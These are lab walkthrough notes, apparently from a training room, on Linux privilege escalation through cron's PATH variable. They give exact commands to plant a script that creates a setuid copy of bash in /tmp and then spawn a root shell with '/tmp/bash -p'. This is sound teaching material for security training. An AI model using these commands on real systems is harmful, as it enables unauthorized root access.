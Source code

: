 **Detection**

Linux VM

1. In command prompt type: 
   
```
cat /etc/crontab
```

![[Pasted image 20240602232659.png]]


2. From the output, notice the value of the “PATH” variable.

**Exploitation**

Linux VM

1. In command prompt type:

```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
```

2. In command prompt type: 
   
```
chmod +x /home/user/overwrite.sh
```

3. Wait 1 minute for the Bash script to execute.

4. In command prompt type:
   
```
 /tmp/bash -p
```

5. In command prompt type: 
   
```
id
```

![[Pasted image 20240602232738.png]]


Answer the questions below

Click 'Completed' once you have successfully elevated the machine
